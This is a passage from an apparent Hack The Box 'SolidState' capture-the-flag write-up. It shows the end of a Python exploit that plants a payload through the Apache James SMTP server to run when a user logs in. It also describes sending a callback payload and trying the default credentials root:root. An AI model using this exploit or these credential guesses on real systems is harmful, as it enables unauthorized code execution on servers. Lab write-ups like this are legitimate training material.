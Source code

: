 ```python
    recv(s)
    s.send("From: team@team.pl\r\n")
    s.send("\r\n")
    s.send("'\n")
    s.send(payload + "\n")
    s.send("\r\n.\r\n")
    recv(s)
    s.send("quit\r\n")
    recv(s)
    s.close()
    print "[+]Done! Payload will be executed once somebody logs in."
except:
    print "Connection failed."
```

First, I would usually want to verify the exploit before attempting for a shell, either by running the PoC code or by hand.

When testing a vulnerable application, I would normally set up a virtual machine (using VirtualBox and Vagrant), install the vulnerable version, and then run the exploit against it. In this case, I just went ahead and took advantage of my HTB VIP+ subscription (personal instances, machine resets whenever I wanted). So I wrote a payload that would send me a callback.

![](/assets/writeups/HTB-SolidState/payload_1.png)

I then started tcpdump and then ran the script.

![](/assets/writeups/HTB-SolidState/tcpdump.png)

At this point, the payload should have already been delivered and would be triggered via bash completion when a user logs in to the server. Of course this was HTB and normally there are no simulated users, so I thought I needed to trigger the login myself. However, at this point I did not have a valid SSH user, so I went back to check something I have not explored yet: the admin account to the James SMTP server.

I tried to login to the service using the default credentials `root:root`:

